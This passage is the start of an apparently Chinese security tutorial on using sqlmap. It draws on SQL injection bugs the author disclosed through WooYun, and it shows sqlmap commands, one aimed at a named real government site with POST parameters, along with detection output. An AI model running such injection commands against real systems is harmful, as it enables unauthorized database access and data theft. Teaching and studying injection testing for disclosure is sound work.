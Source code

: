 # SQLMAP 实例 COOKBOOK

2014/03/30 10:52 | [lxj616](http://drops.wooyun.org/author/lxj616 "由 lxj616 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

提醒：本文章中的所有例子均已通过乌云平台通知厂商，并按照流程已经公开（未公开的会有标识并且隐藏信息，请等待公开后自行查看），请在阅读文章的同时不要对文中所列漏洞重复测试，谢谢

## 0x00 概述

* * *

本文章面向 已经理解 SQL 注射基本原理、已经配置好并了解 SQLMAP 基本命令、但缺乏实践的入门者。在文章中总结了自己在乌云上发布的近三十个 SQL 注射漏洞，对于 SQLMAP 在不同场景下的应用给出了 实例总结，对于 SQLMAP 的基本介绍、安装配置、命令手册请大家自行百度。

SQL 注射原理传送门[`drops.wooyun.org/papers/59`](http://drops.wooyun.org/papers/59)

SQLMAP 用户手册传送门[`drops.wooyun.org/tips/143`](http://drops.wooyun.org/tips/143)

## 0x01 从 HelloWorld 开始思考

* * *

[WooYun: WanCMS 多处 SQL 注射（源码详析+实站演示）](http://www.wooyun.org/bugs/wooyun-2014-049372)

形如：

```
C:\Users\Administrator>sqlmap.py -u "http://?a=b" –tables 
```

[WooYun: 吉林市人力资源和社会保障局 Oracle injection](http://www.wooyun.org/bugs/wooyun-2013-045782)

```
root@kali:~# sqlmap -u "www.jljl.lss.gov.cn/ybcx.asp" --data="yblb=%D2%BD%C1%C6%B1%A3%CF%D5&ybxm=123&ybsfzh=123" --tables 
```

相信大家都已经倒背如流，烂熟于心。

### 例子 a)

SQLMAP 首先测试 a（唯一的参数），检测结果如下

```
Type: boolean-based blind（heuristic test 基本测试就能发现）

Type: UNION query      （在至少发现其他一种注射存在时会扩大测试范围，原始是 1-10，而这里测试到了 20，这是自动扩展的）

Type: AND/OR time-based blind （正常等级测试即可发现） 
```

效率很高，检测很准确，跑表成功，一切都很好，这是一个完美的 HelloWorld

### 例子 b)

SQLMAP 首先测试 yblb，没有发现注射，然后检测 ybxm，结果如下:
